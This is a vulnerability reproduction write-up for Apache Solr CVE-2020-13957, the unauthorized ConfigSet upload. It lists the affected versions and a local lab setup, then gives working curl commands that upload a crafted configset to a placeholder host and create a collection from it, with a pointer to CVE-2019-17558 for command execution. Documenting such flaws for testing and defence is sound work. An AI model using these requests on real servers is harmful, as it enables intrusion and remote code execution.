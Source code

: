 ```yaml
---
title: Apache Solr RCE Unauthorized Upload Vulnerability CVE-2020-13957
---
```


# Apache Solr RCE Unauthorized Upload Vulnerability CVE-2020-13957

## Vulnerability Description

In a specific Solr version, the ConfigSet API has an unauthorized upload vulnerability, which can be exploited by an attacker to enable remote code execution.

## Affect Version

Apache Solr 6.6.0 -6.6.5

Apache Solr 7.0.0 -7.7.3

Apache Solr 8.0.0 -8.6.2

## Environment construction

Select a vulnerable version. Here the reproduction is `Apache Solr 7.7.0` for reproduction. After downloading, execute the following command for environmental deployment.

```shell
cd solr-7.7.0
./bin/solr start -e cloud -force
```

Then turn on until it appears

```shell
Created collection 'gettingstarted' with 2 shard(s), 2 replica(s) with config-set 'gettingstarted'

Enabling auto soft-commits with maxTime 3 secs using the Config API

POSTing request to Config API: http://localhost:8983/solr/gettingstarted/config
{"set-property":{"updateHandler.autoSoftCommit.maxTime":"3000"}}
Successfully set-property updateHandler.autoSoftCommit.maxTime to 3000


SolrCloud example running, please visit: http://localhost:8983/solr
```

Visit http://xxx.xxx.xxx.xxx:8983/solr/ It's normal

## Vulnerability reappears

Download the target version of Solr on the attack machine and execute the following command to package the compressed file

```plain
solr-7.7.0/server/solr/configsets/sample_techproducts_configs/conf
zip -r - * > vuln.zip
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/540ba570-fe93-4fc6-b7fd-f5a5a7fc8f3f.png)

Upload vuln.zip

```shell
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @vuln.zip "http://xxx.xxx.xxx.xxx:8983/solr/admin/configs?action=UPLOAD&name=vuln"
```

The name parameter is the file name of the compressed package. Use the vulnerability to create a core

```shell
curl "http://xxx.xxx.xxx.xxx:8983/solr/admin/collections?action=CREATE&name=peiqi&numShards=1&replicationFactor=1&wt=xml&collection.configName=vuln"
```


</a-alert>


</a-alert>
<br/>
Then use the Apache Solr Velocity template to remotely execute `CVE-2019-17558` to execute any command